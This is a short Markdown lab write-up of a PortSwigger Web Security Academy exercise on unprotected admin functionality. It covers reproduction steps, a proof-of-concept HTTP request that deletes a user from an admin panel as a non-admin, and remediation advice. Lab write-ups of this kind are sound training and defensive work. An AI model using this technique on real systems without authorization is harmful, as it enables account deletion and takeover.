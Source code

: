 
# PS-005 — Access Control: Unprotected Admin Functionality
**Date / Analyst:** 2025-09-05 — Christopher Araque
**Environment:** PortSwigger WSA — beginner access control lab

## TL;DR
- Admin endpoints were reachable by a non-admin user.
- Performed admin-only action successfully.
- Fix: enforce server-side role checks on every admin route; remove sensitive paths from robots; least-privilege.

## Scope & Target
- **Endpoint(s):** e.g., /admin, /admin/delete?username=carlos
- **Auth context:** Logged in as non-admin user shown by the lab, e.g., carlos
- **Method**: GET

## Steps to Reproduce
1) Enumerate admin path(s) (robots.txt, direct browse).
2) Access panel as non-admin; identify admin action.
3) Execute action; observe success.

## Evidence
- Screenshot:
  ![PS-005](../../evidence/ps-access/ps-005-screenshot.png)
- Request:
  [PS-005-request.txt](../../evidence/ps-access/ps-005-requests.txt)


## PoC (key lines)
**Action executed as non-admin:**
Request
GET /administrator-panel/delete?username=carlos HTTP/2
Host: 0a1e0086040cf48780683f9a00f400bd.web-security-academy.net
Cookie: session=<redacted>

Response
HTTP/2 302 Found
Location: /administrator-panel
X-Frame-Options: SAMEORIGIN
Content-Length: 0


## Impact
Unauthorized administrative actions (account deletion/role changes), leading to account takeover or service disruption.

## Recommended Fix
- Server-side authorization on all admin routes (role/permission checks).
- Do not expose admin paths; defense-in-depth (rate-limit/WAF for admin endpoints).
- Least-privileged app/service accounts; audit logs/alerts for admin actions.
